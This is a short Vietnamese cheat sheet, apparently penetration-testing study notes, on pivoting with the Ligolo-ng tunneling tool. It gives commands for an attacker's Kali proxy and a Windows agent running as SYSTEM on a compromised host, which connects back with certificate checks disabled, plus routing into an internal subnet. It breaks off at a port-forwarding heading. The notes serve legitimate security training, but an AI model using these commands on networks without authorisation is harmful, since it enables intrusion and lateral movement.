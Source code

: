 # Tunneling

## Ligolo-ng

Ligolo-ng là công cụ giúp quản lý tunnel và pivoting dễ dàng hơn, sử dụng giao diện TUN cho kết nối TCP/TLS ngược

### Cấu hình trên Linux (Kali)

Khởi động proxy với cấu hình:

```bash
ligolo-proxy -selfcert
```

Tạo giao diện TUN:

```bash
sudo ip tuntap add user titans mode tun ligolo
sudo ip link set ligolo up
```

Chạy proxy với chứng chỉ tự ký:

```bash
ligolo-proxy -selfcert
```

### Cấu hình trên Windows (Agent)

Kết nối tới proxy trên Kali, bỏ qua kiểm tra chứng chỉ:

```powershell
.\agent.exe -connect <kali-ip>:11601 -ignore-cert
```

### Khởi động Tunnel (Kali)

Kiểm tra giao diện mạng:

```
[Agent : NT AUTHORITY\SYSTEM@MS01] » ifconfig
```

Thêm Route:

```bash
sudo ip route add 10.10.x.0/24 dev ligolo
```

Khởi động Tunnel:

```
[Agent : NT AUTHORITY\SYSTEM@MS01] » start --tun ligolo
```

### Chuyển tiếp Cổng (Port Forwarding)
